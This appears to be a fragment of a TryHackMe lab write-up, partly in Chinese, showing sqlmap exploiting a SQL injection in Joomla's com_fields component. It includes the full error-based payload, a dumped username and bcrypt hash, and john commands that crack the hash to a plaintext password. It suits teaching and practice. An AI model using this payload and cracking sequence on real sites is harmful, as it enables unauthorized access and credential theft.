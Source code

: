 ```
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9274 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(9274=9274,1))),0x717a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
---
[03:42:09] [INFO] testing MySQL
[03:42:09] [INFO] confirming MySQL
[03:42:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: PHP 5.6.40, Apache 2.4.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[03:42:10] [INFO] fetching columns 'password, username' for table '# __users' in database 'joomla'
[03:42:10] [WARNING] unable to retrieve column names for table '# __users' in database 'joomla'
do you want to use common column existence check? [y/N/q] N
[03:42:10] [INFO] fetching entries of column(s) 'password,username' for table '# __users' in database 'joomla'
[03:42:11] [INFO] retrieved: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[03:42:12] [INFO] retrieved: 'jonah'
Database: joomla
Table: # __users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+

[03:42:12] [INFO] table 'joomla.`# __users`' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.211.216/dump/joomla/# __users.csv'
[03:42:12] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 7 times
[03:42:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.211.216'
[03:42:12] [WARNING] your sqlmap version is outdated

[*] ending @ 03:42:12 /2021-09-03/
```

# 把jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 写进hash.txt，用john破解

┌──(root💀kali)-[~/tryhackme]
└─#  john --format=bcrypt hash.txt  --wordlist=/usr/share/wordlists/rockyou.txt

# 记录一个john的坑
john的字典参数--wordlist，如果没有写"="号，有可能破解不出来（即：john --format=bcrypt hash.txt  --wordlist /usr/share/wordlists/rockyou.txt）
详情参考这里：https://www.reddit.com/r/HowToHack/comments/m9w0at/why_isnt_john_cracking_this_bcrypt_hash/

# 查看破解的密码
└─#  john --show hash.txt                                                                                                                                                                                                                1 ⨯
jonah:spiderman123
